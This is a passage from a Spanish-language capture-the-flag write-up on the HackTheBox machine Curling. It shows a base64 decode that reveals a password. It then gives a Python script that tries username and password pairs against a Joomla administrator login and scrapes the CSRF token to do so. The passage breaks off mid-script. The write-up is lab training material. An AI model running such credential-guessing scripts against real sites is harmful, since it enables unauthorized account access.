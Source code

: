 ```bash
❱ echo "Q3VybGluZzIwMTgh" | base64 -d
Curling2018!
```

OIEEEEEEEEEEEEEEeeeEeeee, eso sí que parece una contraseña eh! Bastante feo, raro y mehh que este ese recurso ahí en la web como si nada y con un comentario en el **home** referenciándola, pero bueno, sigamos...

Ya tenemos dos cadenas que parecen contraseñas:

* `curling2018`.
* `Curling2018!`.

Y tenemos los usuarios de antes, pues en vez de jugar con diccionarios probemos rápidamente cada usuario "potencial" con las dos contraseñas:

```py
#!/usr/bin/python3

import requests
import signal
import re

# Variables -----------------------.
URL = "http://10.10.10.150/administrator/index.php"

# Funciones -----------------------.
def def_handler(sig, frame):  # Ctrl+C
    print("\nsaLi3ndoo..\n")
    exit(0)

signal.signal(signal.SIGINT, def_handler)

def login(username, password):  # tryLogin
    # Generamos una nueva sesión para cada intento
    session = requests.Session()

    # Extraemos tokens de sesión
    r = session.get(URL)
    hidden_return_value = re.findall(r'<input type="hidden" name="return" value="(.*?)"', r.text)[0]
    hidden_csrf_token_value = re.findall(r'<script type="application/json" class="joomla-script-options new">{"csrf.token":"(.*?)"', r.text)[0]

    data_post = {
        "username": username,
        "passwd": password,
        "option": "com_login",
        "task": "login",
        "return": hidden_return_value,
        hidden_csrf_token_value: "1"
    }
    r = session.post(URL, data=data_post)

    if "Username and password do not match or you do not have an account yet" not in r.text:
        print(f"Credenciales válidas: {username}:{password}")
        exit(0)

def main():  # elCentrico
    array_users = ["Super User", "Floris", "plebbe"]
    array_passwords = ["curling2018", "Curling2018!"]

    for username in array_users:
        for password in array_passwords:
```